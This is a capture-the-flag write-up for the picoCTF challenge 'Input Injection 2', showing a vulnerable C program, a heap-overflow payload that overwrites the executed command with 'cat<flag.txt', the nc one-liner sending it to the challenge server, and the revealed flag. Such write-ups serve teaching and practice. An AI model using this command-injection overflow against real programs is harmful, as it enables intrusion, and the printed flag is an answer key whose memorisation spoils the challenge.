 ```yaml
---
title: "Input Injection 2"
category: "Binary Exploitation"
description: "This program greets you and then runs a command. But can you take control of what command it executes?"
---
```


## Information given

#### Description

This program greets you and then runs a command. But can you take control of what command it executes?

Additional details will be available after launching your challenge instance.

#### Hints
Notice how `username` and `shell` are both heap-allocated.
Offsets often hide in the memory addresses you see at runtime.
Try to overwrite what command gets executed.

# `Vuln.c` script

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
    char *username = malloc(28);
    char *shell = malloc(28);

    printf("username at %p\n", (void *)username);
    fflush(stdout);

    printf("shell at %p\n", (void *)shell);
    fflush(stdout);

    strcpy(shell, "/bin/pwd");

    printf("Enter username: ");
    fflush(stdout);

    scanf("%s", username);

    printf("Hello, %s. Your shell is %s.\n", username, shell);
    system(shell);
    fflush(stdout);

    return 0;
}
```

Vulnerabilities identified:

1. **Buffer Overflow in `scanf`**: The `scanf("%s", username)` call doesn't check bounds, allowing us to write beyond the allocated 28-byte buffer.

2. **Adjacent Memory Layout**: Both `username` and `shell` buffers are allocated on the heap with `malloc(28)`, making them adjacent in memory.

3. **Command Execution**: The program executes `system(shell)`, giving us a path to arbitrary command execution if we can control the `shell` buffer.

#### Payload

```bash

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcat<flag.txt

```

  

This payload:

- Uses 48 'A's to overflow into the `shell` buffer
- Replaces the shell command with `cat<flag.txt`
- Uses input redirection to avoid spaces

### Exploitation

```bash

python3 -c "print('A' * 48 + 'cat<flag.txt')" | nc saffron-estate.picoctf.net 51668

```

  

**Output**:

```

username at 0x93342a0

shell at 0x93342d0

Enter username: picoCTF{us3rn4m3_2_sh3ll_809f901a}Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcat<flag.txt. Your shell is cat<flag.txt.

```


## Flag

The flag is: `picoCTF{us3rn4m3_2_sh3ll_809f901a}`.
  
---